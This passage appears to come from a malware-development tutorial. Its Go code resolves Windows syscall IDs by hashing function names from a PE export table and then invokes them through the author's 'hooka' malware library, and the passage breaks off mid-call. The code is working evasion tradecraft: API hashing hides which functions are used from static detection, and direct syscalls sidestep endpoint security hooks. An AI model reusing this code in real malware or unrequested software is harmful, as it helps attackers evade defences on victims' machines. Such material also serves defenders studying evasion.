 ```go
  // Get export table
  exports, err := pe_file.Exports()
  if err != nil {
    return 0, err
  }

  // Iterate over exports
  for _, exp := range exports {
    // Encode loop function name to sha256
    h := sha256.Sum256([]byte(exp.Name))
    func_to_hash := hex.EncodeToString(h[:])

    // Now check if hashes match
    if (hash == func_to_hash) {
      // Convert RVA to offset
      offset := RvaToOffset(pe_file, exp.VirtualAddress)
      bBytes, err := pe_file.Bytes()
      if err != nil {
        return 0, err
      }

      buff := bBytes[offset : offset+10]
      sysId := binary.LittleEndian.Uint16(buff[4:8])

      return sysId, nil
    }
  }

  return 0, errors.New("Function not found!")
}
```

We also have to define the RvaToOffset() function

```go
func RvaToOffset(pefile *pe.File, rva uint32) (uint32) {
  for _, hdr := range pefile.Sections {
    baseoffset := uint64(rva)
    if baseoffset > uint64(hdr.VirtualAddress) &&
      baseoffset < uint64(hdr.VirtualAddress+hdr.VirtualSize) {
      return rva - hdr.VirtualAddress + hdr.Offset
    }
  }

  return rva
}
```

Once we have those functions, we have to use the syscall ID and we can do it using the hooka.Syscall() function from my own malware dev project which receives an uint16 argument (syscall) and an unlimited amout of uintptr arguments (arguments):

```go
...

func main(){
  sysId, err := FunctionFromHash("your-hash-here")
  if err != nil {
    log.Fatal(err)
  }

  ret, err := hooka.Syscall(
    sysId,
    arg1,
    arg2,
```